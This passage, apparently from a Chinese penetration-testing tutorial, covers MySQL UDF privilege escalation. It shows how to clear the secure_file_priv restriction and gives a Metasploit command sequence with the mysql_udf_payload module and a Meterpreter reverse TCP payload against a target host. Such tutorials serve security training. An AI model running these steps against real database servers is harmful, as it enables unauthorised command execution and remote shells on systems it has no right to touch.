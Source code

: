 #### 二、**msf模块提权**

**设置secure-file-priv参数的值**

因为mysql默认设置是不允许导入导出的

secure_file_priv是用来限制load dumpfile、into outfile、load_file()函数在哪个目录下拥有上传和读取文件的权限。如下关于secure_file_priv的配置介绍

```
secure_file_priv的值为null ，表示限制mysqld 不允许导入|导出
 
当secure_file_priv的值为/tmp/ ，表示限制mysqld 的导入|导出只能发生在/tmp/目录下
 
当secure_file_priv的值没有具体值时，表示不对mysqld 的导入|导出做限制
```

所以，如果这里的 `secure_file_priv` 的值非空的话，近下来操作即导入dll的操作则不能进行，所以我们先把其设置为空

```
show variables like '%secure%';
```

我们可以在 `mysql/my.ini` 中查看是否有 secure_file_priv 的参数，如果没有的话我们就添加 secure_file_priv = ' ' 即可
<img src=".\图片\Snipaste_2023-02-13_16-00-22.png" alt="Snipaste_2023-02-13_16-00-22" style="zoom: 80%;" />

**使用MSF中的exploit/multi/mysql/mysql_udf_payload 模块可以进行UDF提权**

MSF会将dll文件写入lib\plugin\目录下(前提是该目录存在，需手工创建)，该dll文件中包含sys_exec()和sys_eval()两个函数，但是默认只创建sys_exec()函数，该函数执行并不会有回显。我们可以手动创建 sys_eval() 函数，来执行有回显的命令。

```
MSF:（前提先开外链）
use exploit/multi/mysql/mysql_udf_payload
set payload windows/meterpreter/reverse_tcp
set password root
set rhosts 192.168.10.73
run
```
